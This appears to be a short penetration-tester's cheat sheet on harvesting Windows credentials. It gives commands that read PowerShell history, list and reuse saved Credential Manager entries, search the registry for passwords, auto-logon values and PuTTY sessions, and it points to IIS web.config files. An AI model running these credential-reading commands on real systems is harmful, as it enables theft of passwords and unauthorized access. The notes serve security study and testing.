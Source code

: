 # Credentials Harvesting

#### Powershell History

`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`&#x20;

#### Saved Windows Credentials

`cmdkey /list` lists all credentials stored in the Windows Credential Manager (Note: won't allow you to view them directly)

`runas /savecred /user:admin cmd.exe` run a cmd.exe as the user stored in the Credential Manager

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v keyword` to view if auto-log on is stored in the Windows registry

`reg query HKLM /f "password" /t REG_SZ /s` to search the registry for anything related to the password

#### Internet Information Services (IIS) Configuration

Is responsible for the default web server on Windows installs. Will sometimes store password for databases or configurated authentications.

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

#### Retrieve Credentials from software

PuTTY (SSH client on windows): stores connection parameters such as IPs and SSH passwords. Only accessible with Proxy  `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
